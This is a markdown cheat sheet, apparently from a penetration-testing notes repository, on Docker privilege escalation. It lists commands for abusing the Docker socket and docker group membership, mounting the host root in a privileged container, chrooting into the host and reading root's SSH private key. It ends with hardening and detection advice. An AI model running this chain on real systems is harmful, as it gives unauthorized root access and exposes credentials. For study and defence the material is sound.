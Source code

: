 ## Docker Privilege Escalation Techniques

### Check Docker Version
Determine the installed Docker version.

```bash
docker version
```

### List Docker Images
View available Docker images.

```bash
docker image ls
```

### List Docker Containers
Show all running and stopped Docker containers.

```bash
docker ps -a
```

### Check User's Docker Group Membership
Check if the user is part of the `docker` group, which may allow privilege escalation.

```bash
id
```

### Locate Docker Socket
Check the default location of the Docker socket.

```bash
ls -l /var/run/docker.sock
```

### Download Docker Binary (If Not Available in Container)
Fetch the Docker binary in case it's missing.

```bash
wget <URL_TO_DOCKER_BINARY> -O docker
chmod +x docker
```

### List Running Containers via Docker Socket
Use the Docker socket to list running containers.

```bash
./docker -H unix:///var/run/docker.sock ps
```

### Run a Privileged Container with Host Root Mount
Start a privileged container and mount the host’s root filesystem.

```bash
./docker -H unix:///var/run/docker.sock run --rm -d --privileged -v /:/hostsystem <image_name>
```

### Execute a Shell in the Privileged Container
Gain shell access inside the privileged container.

```bash
./docker -H unix:///var/run/docker.sock exec -it <container_id> /bin/bash
```

### Access Host Files from Within the Container
View sensitive host files inside the container.

```bash
cat /hostsystem/root/.ssh/id_rsa
```

### Run a Container with a Chroot into the Host
Use `chroot` to access the host system from inside a container.

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

### Check If Docker Socket is Writable
Ensure that the Docker socket has the appropriate permissions.

```bash
ls -l /var/run/docker.sock
```

### Using Docker Compose to List Running Containers
View running containers using Docker Compose.

```bash
docker-compose ps -a
```

### Using Docker Compose to Execute a Shell in a Container
Access a shell within a running container using Docker Compose.

```bash
docker-compose exec <container_name> /bin/bash
```

### Using Docker Compose to Check Service Configurations
Inspect service configurations in Docker Compose.

```bash
docker-compose config --services <service_name>
```



## **Key Concepts:**

- **Docker Architecture:**
    - Docker Daemon (server): Manages containers, images, networks, and storage.
    - Docker Client: Interface for interacting with the Daemon.
    - Docker Compose: Orchestrates multi-container applications.
    - Docker Desktop: GUI for managing Docker.
- **Docker Images and Containers:**
    - Images: Read-only templates.
    - Containers: Mutable instances of images.
- **Privilege Escalation Vectors:**
    - **Shared Directories (Volume Mounts):** Accessing sensitive host files.
    - **Docker Sockets:** Abusing the Docker daemon socket for control.
    - **Docker Group:** Membership grants control over the Docker daemon.
    - **Writable Docker Sockets:** Abusing writable docker sockets when the user is not in the docker group.

### **Exploitation Techniques:**

- **Shared Directories:**
    - Locating mounted host directories within the container.
    - Accessing sensitive files (e.g., SSH private keys).
- **Docker Sockets:**
    - Locating the `docker.sock` file.
    - Using the `docker` binary (or downloading it) to interact with the socket.
    - Running privileged containers with host root mounts.
    - Using docker run with a chroot into the host system.
- **Docker Group:**
    - Checking user group membership (`id`).
    - Exploiting the ability to run arbitrary Docker commands.
- **Writable Docker Sockets:**
    - Checking permissions on the docker.sock file.
    - Executing commands through the docker socket to gain root on the host.

### **Important Considerations and Enhancements:**

- **Security Best Practices:**
    - Minimize volume mounts.
    - Use read-only mounts when possible.
    - Restrict access to the Docker socket.
    - Avoid running containers with `--privileged`.
    - Implement proper user and group management.
    - Use security scanning tools for docker images.
    - Use docker rootless mode.
- **Attack Vectors:**
    - Exploiting vulnerabilities in the Docker daemon itself.
    - Compromised Docker images.
    - Misconfigured Docker Compose files.
- **Detection:**
    - Monitor Docker socket activity.
    - Audit Docker configurations.
    - Use intrusion detection systems.
- **Containerization Security:**
    - Understanding Docker security is crucial for modern infrastructure.
    - Tools like Docker Bench for Security and Clair can help assess security.
- **Namespaces and Cgroups:** Reinforce the importance of namespaces and cgroups in docker security.
- **Real World Examples:** Researching real world docker escapes will help solidify understanding of the attack vectors.
- **Rootless Docker:** Modern docker installations can run in rootless mode, which greately reduces the attack surface.
- **Docker Capabilities:** Docker utilizes linux capabilities, and those can be missused.
